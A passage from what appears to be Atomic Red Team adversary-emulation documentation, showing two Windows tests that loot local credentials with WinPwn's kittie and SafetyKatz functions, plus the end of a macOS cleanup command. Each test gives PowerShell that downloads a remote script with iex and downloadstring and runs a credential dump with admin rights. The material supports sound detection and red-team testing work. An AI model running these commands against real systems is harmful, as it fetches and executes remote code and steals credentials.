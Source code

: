 #### Cleanup Commands:
```bash
dseditgroup -o edit -d art-user -t user admin
```





<br/>
<br/>

## Atomic Test #6 - WinPwn - Loot local Credentials - powerhell kittie
Loot local Credentials - powerhell kittie technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 9e9fd066-453d-442f-88c1-ad7911d32912






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
obfuskittiedump -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Safetykatz
Loot local Credentials - Safetykatz technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** e9fdb899-a980-4ba4-934b-486ad22e22f4






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
safedump -consoleoutput -noninteractive
```
